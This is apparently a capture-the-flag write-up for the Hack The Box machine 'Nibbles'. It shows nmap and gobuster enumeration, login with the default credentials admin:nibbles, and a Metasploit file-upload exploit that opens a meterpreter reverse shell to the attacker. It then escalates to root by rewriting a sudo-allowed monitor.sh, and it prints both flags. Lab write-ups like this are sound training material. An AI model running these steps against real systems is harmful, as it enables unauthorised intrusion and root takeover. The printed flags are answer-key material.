


### nmap
```sh {linenos=true}
# Nmap 7.93 scan initiated Mon Nov 13 19:59:42 2023 as: nmap -sC -sV -oA nmap/nibbles -T4 10.129.118.233
Nmap scan report for 10.129.118.233
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 13 19:59:50 2023 -- 1 IP address (1 host up) scanned in 7.33 seconds
```

### gobuster
```sh {linenos=true}
┌──(kali㉿kali)-[~/htb/busqueda]
└─$ sudo gobuster dir -u http://10.129.118.233 -w /usr/share/dirb/wordlists/common.txt -z
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.118.233
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/11/13 20:15:10 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/index.html           (Status: 200) [Size: 93] 
/server-status        (Status: 403) [Size: 302]
                                               
===============================================================
2023/11/13 20:15:11 Finished
===============================================================
```

### http



### gobuster
```sh {linenos=true}
┌──(kali㉿kali)-[~/htb/busqueda]
└─$ sudo gobuster dir -u http://10.129.118.233/nibbleblog/ -w /usr/share/dirb/wordlists/common.txt -z
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.118.233/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/11/13 20:17:08 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 309]
/.hta                 (Status: 403) [Size: 304]
/.htpasswd            (Status: 403) [Size: 309]
/admin                (Status: 301) [Size: 327] [--> http://10.129.118.233/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                             
/content              (Status: 301) [Size: 329] [--> http://10.129.118.233/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                               
/languages            (Status: 301) [Size: 331] [--> http://10.129.118.233/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.118.233/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                                 
/themes               (Status: 301) [Size: 328] [--> http://10.129.118.233/nibbleblog/themes/]   
                                                                                                 
===============================================================
2023/11/13 20:17:09 Finished
===============================================================
```

### searchsploit
```sh
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                    | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)     | php/remote/38489.rb
---------------------------------------------------------- ---------------------------------
```

After seeing this, I Google the default password for nibbleblog and found `admin:nibbles`. This, of coure, worked.

Then I was able to upload a [reverse PHP shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) using the image `Plugins` within the nibbleblog portal.

### metasploit
```sh
msf6 > search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:por
                                         t[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.
                                         metasploit.com/docs/using-metasploit/
                                         basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connec
                                         tions
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  209.151.148.245  yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


View the full module info with the info, or info -d command.

msf6 exploit(multi/http/nibbleblog_file_upload) >
```
We've got everything we need. Now Just have to configure the options.

```sh
msf6 exploit(multi/http/nibbleblog_file_upload) > set rhost 10.129.118.233
lhost => 10.129.118.233
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.15.26
rhost => 10.10.15.26
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi nibbleblog/
targeturi => nibbleblog/
msf6 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.15.26:4444 
[*] Sending stage (39927 bytes) to 10.129.118.233
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.15.26:4444 -> 10.129.118.233:37544) at 2023-11-13 21:15:55 +0000

meterpreter> sysinfo
Computer    : Nibbles
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
meterpreter> > execute -if "cat /home/*/user.txt"
Process 1691 created.
Channel 3 created.
79c03865431abf47b90ef24b9695e148
```

### privesc
```sh
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Welp that's easy. Put whatever you want in `monitor.sh` (revshell, cmds, etc) and have root privs.

### Flags

**user.txt:** `79c03865431abf47b90ef24b9695e148`

**root.txt:** `de5e5d6619862a8aa5b9b212314e0cdd`
